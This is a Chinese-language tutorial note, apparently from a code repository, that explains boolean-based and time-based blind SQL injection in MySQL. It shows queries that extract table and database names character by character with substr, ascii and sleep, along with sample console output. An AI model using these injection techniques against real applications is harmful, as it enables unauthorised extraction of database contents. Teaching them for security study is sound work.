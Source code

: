 ### 基于布尔盲注
获取表名：
```
select table_name from information_schema.tables where table_schema=database() limit 0,1;
```
获取表名第一个字符：
```
select substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1) as xxx;
```
获取表明第一个字符的ASCII值：
```
select ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)) as xxx;
```
根据返回结果的真假来判断所要猜测的内容是否为真。

--- 注入步骤：
1. 获取数据库名长度 `length(database())`
2. 通过猜测数据库名的每一个字符猜测数据库名，通过比较ASCII值的大小（利用二分法减少比较次数）
举例：当前数据库名为test
通过下面的方法可以猜出数据库名称的第一个字母为t，依次类推可猜解处数据库名称。
```
mysql> select ascii(substr(database(),1,1))<115 as xxx;
+------+
| xxx  |
+------+
|    0 |
+------+
1 row in set (0.00 sec)

mysql> select ascii(substr(database(),1,1))<117 as xxx;
+------+
| xxx  |
+------+
|    1 |
+------+
1 row in set (0.00 sec)
```
3. 仿照上面的方法可以分别猜测 数据表，字段，数据的具体内容。

### 基于时间盲注
首先，了解`if`的用法
`if(expr,1,2) --- 如果expr为true，则执行1；否则，执行2`
通过判断SQL语句的执行时间来判断所要猜测的内容是否为真。
```
mysql> select if(ascii(substr(database(),1,1))<117,sleep(5),null) as xxx;
该SQL语句会等待5秒钟才会显示结果。
+------+
| xxx  |
+------+
|    0 |
+------+
1 row in set (5.00 sec)

mysql> select if(ascii(substr(database(),1,1))<115,sleep(5),null) as xxx;
+------+
| xxx  |
+------+
| NULL |
+------+
1 row in set (0.00 sec)
```
借此，可以一个一个字符的猜测所需要的内容。
